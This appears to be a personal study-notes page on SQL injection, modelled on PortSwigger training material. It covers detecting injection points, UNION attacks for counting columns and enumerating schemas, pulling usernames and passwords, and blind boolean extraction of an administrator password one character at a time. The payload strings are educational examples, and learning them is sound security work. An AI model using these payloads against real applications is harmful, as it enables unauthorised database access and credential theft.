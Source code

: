 # SQL injection

<details>
<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>
<br>

- https://tib3rius.com/sqli
    
<br>
</details>

<details>
<summary>$\huge{\text{How to detect SQL injection vulnerabilities}}$</summary>
<br>

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection in different parts of the query}}$</summary>
<br>

- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)
    
<br>
</details>

<details>
<summary>$\huge{\text{Warning: OR 1=1 }}$</summary>
<br>

- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>
<br>

- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query
    
<br>
</details>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Determining the number of columns required}}$</summary>
<br>

- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Database-specific syntax}}$</summary>
<br>

- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>
<br>

- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Examining the database}}$</summary>
<br>

| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

<br>
</details>
</dd></dl></dd></dl>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>
<br>

- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<details>
<summary>$\huge{\text{Blind SQL Injection}}$</summary>
<br>

- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
    
<br>
</details>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Triggering conditional responses}}$</summary>
<br>

- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

<br>
</details>
</dd></dl></dd></dl>


